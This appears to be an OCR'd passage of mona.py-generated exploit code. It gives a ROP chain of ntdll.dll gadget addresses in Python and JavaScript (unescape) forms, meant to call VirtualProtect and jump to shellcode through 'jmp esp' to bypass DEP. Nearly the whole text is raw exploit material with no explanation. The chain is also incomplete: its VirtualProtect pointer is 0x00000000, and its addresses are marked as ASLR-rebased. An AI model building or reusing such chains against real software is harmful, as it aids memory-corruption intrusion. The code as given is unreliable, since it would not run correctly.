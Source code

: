 	0x776fa30c, # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000000, # [-] Unable to find ptr to &VirtualProtect()

	0x77661052, # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR

	0x776e72d9, # ptr to 'jmp esp' [ntdll.dll] ** REBASED ** ASLR

	]

	return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

	rop_chain = create_rop_chain()

	*** [ JavaScript ] ***

	//rop chain generated with mona.py - www.corelan.be

	rop_gadgets = unescape(

	"%u94d5%u776d" + // 0x776d94d5 : ,# POP EBP # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u94d5%u776d" + // 0x776d94d5 : ,# skip 4 bytes [ntdll.dll] ** REBASED **
	ASLR

	"%u5aca%u7769" + // 0x77695aca : ,# POP EBX # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u0201%u0000" + // 0x00000201 : ,# 0x00000201-> ebx

	"%u6b7b%u776a" + // 0x776a6b7b : ,# POP EDX # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u0040%u0000" + // 0x00000040 : ,# 0x00000040-> edx

	"%u73a2%u7771" + // 0x777173a2 : ,# POP ECX # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%uc513%u7773" + // 0x7773c513 : ,# &Writable location [ntdll.dll] ** REBASED
	** ASLR

	"%u577a%u7769" + // 0x7769577a : ,# POP EDI # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u5922%u7766" + // 0x77665922 : ,# RETN (ROP NOP) [ntdll.dll] ** REBASED
	** ASLR

	"%u0f9a%u776e" + // 0x776e0f9a : ,# POP ESI # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u2065%u7766" + // 0x77662065 : ,# JMP [EAX] [ntdll.dll]

	"%ua30c%u776f" + // 0x776fa30c : ,# POP EAX # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u0000%u0000" + // 0x00000000 : ,# [-] Unable to find ptr to &VirtualProtect()

	"%u1052%u7766" + // 0x77661052 : ,# PUSHAD # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u72d9%u776e" + // 0x776e72d9 : ,# ptr to 'jmp esp' [ntdll.dll] ** REBASED
	** ASLR
